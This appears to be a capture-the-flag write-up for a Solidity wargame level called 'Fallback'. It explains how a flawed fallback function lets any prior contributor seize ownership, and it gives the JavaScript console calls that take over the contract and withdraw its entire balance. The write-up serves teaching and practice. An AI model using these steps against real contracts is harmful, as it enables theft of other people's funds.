 # Fallback

Look carefully at the contract's code below.<br/>
You will beat this level if: <br/>

- you claim ownership of the contract<br/>
- you reduce its balance to 0<br/>

Vulnerability on in this challenge allow anyone who execute fallback function to be owner of the contract and withdraw all of the contract balance.<br/>
It checks only amount of contribution of sender (person who execute that function) and msg.value that we paid is more than zero to be owner.<br/>

From the condition to be owner in the fallback function:
```javascript
require(msg.value > 0 && contributions[msg.sender] > 0);
```

We need to have balance in the contributions first and then pay money to the fallback to pass it.
```javascript
await contract.contribute({ value: toWei('0.0001') }); //in contribute() have require(msg.value < 0.001 ether);
```

Then, send ether to trigger fallback receive function:
```javascript
contract.send(toWei('0.0001'));
```
Check the owner is our player address:
```javascript
await contract.owner();
```

Withdraw all funcs and check the contract is no balance left:
```javascript
await contract.withdraw();
await web3.eth.getBalance(instance);
> '0'
```